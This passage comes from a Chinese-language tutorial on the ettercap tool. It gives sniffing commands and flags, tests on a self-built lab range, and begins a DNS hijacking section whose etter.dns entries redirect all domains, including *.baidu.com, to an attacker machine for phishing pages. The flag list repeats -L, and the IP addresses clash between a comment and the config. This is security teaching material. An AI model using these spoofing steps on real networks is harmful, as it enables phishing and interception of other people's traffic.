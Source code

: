 启动：

```bash
ettercap -Tq -i eth0
```

语法：

```markdown
-l	显示可用网卡接口设备
-i	选择接口
-t	协议选择，tcp/udp/all，默认为all
-p	不进行毒化攻击，用于嗅探本地数据包
-L	载入过滤器文件
-V	text 将数据包以文本形式显示在屏幕上
-L	filename 把所有的数据包保存下来（保存后的文件只能用etterlog显示）
```

这里，我们登陆了自己建的一个靶场进行测试：

![截图](c3f5dc00f888382d66bdbe5595d48686.png)

成功捕捉！！！

## 0x03 DNS劫持

我们将利用DNS的解析来进行劫持网内的主机，以此我们就可以制作钓鱼页面，将受害者访问的网址导向我们的钓鱼页面：。

### 1、Windows主机dns命令

```cmd
ipconfig /displaydns  ##查询DNS缓存
ipconfig /flushdns  ##刷新DNS缓存
```

### 2、开启dns劫持

这里我们依旧使用kali作为攻击机。

#### 1）修改配置文件

首先，我们需要修改一下kali中`ettercap`工具的`DNS解析`，确实也就是将流量转发到这个我们自己的网站上：

```bash
vim /etc/ettercap/etter.dns  ##配置文件地址
```

```sass
修改内容：
* A 192.168.31.158      ##星号就代表匹配所有，A就是A记录，192.168.2.10就是kali攻击机的地址，当然你也可以使用公网IP。

其他类型：   ##以下均可以配置，这个是针对性的
www.*.com A 192.168.2.10
*.baidu.com A 192.168.2.10
*.*.com A 192.168.2.10
```
{: ."/etc/ettercap/etter.dns"}
